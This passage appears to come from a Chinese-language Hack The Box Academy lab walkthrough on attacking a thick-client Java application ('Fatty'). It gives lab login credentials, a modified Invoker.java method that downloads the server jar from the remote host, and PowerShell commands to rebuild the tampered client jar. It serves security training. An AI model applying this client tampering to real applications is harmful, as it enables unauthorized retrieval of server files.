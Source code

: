 完成後，學生需要啟動`traverse.jar`並驗證身份`qtc:clarabibi`。然後，他們需要前往`FileBrowser`--> `Configs`，查看 start.sh 腳本：

![攻擊\_常見應用程式\_演示圖像\_86.png](https://academy.hackthebox.com/storage/walkthroughs/39/Attacking_Common_Applications_Walkthrough_Image_86.png)

該實用程式允許胖客戶端查看/檢索遠端伺服器上託管的文件，並揭示應用程式伺服器的存在`fatty-server.jar`。

現在，學生需要修改`open`中的函數`fatty-client-new.jar.src/htb/fatty/client/methods/Invoker.java`以便能夠下載檔案`fatty-server.jar`：

程式碼：java

```java
import java.io.FileOutputStream;
```

![攻擊\_常見應用程式\_演示圖像\_87.png](https://academy.hackthebox.com/storage/walkthroughs/39/Attacking_Common_Applications_Walkthrough_Image_87.png)

程式碼：java

```java
public String open(String foldername, String filename) throws MessageParseException, MessageBuildException, IOException {
    String methodName = (new Object() {}).getClass().getEnclosingMethod().getName();
    logger.logInfo("[+] Method '" + methodName + "' was called by user '" + this.user.getUsername() + "'.");
    if (AccessCheck.checkAccess(methodName, this.user)) {
        return "Error: Method '" + methodName + "' is not allowed for this user account";
    }
    this.action = new ActionMessage(this.sessionID, "open");
    this.action.addArgument(foldername);
    this.action.addArgument(filename);
    sendAndRecv();
    String desktopPath = System.getProperty("user.home") + "\\Desktop\\fatty-server.jar";
    FileOutputStream fos = new FileOutputStream(desktopPath);
    
    if (this.response.hasError()) {
        return "Error: Your action caused an error on the application server!";
    }
    
    byte[] content = this.response.getContent();
    fos.write(content);
    fos.close();
    
    return "Successfully saved the file to " + desktopPath;
}
```

![攻擊\_常見應用程式\_演示圖像\_88.png](https://academy.hackthebox.com/storage/walkthroughs/39/Attacking_Common_Applications_Walkthrough_Image_88.png)

儲存變更後，學生需要再次重建 jar：

代碼：powershell

```powershell
javac -cp fatty-client-new.jar .\fatty-client-new.jar.src\htb\fatty\client\methods\Invoker.java
mv -Force .\fatty-client-new.jar.src\htb\fatty\client\methods\*.class .\raw\htb\fatty\client\methods\
cd raw
jar -cmf META-INF/MANIFEST.MF fatty-client-modified.jar .
```
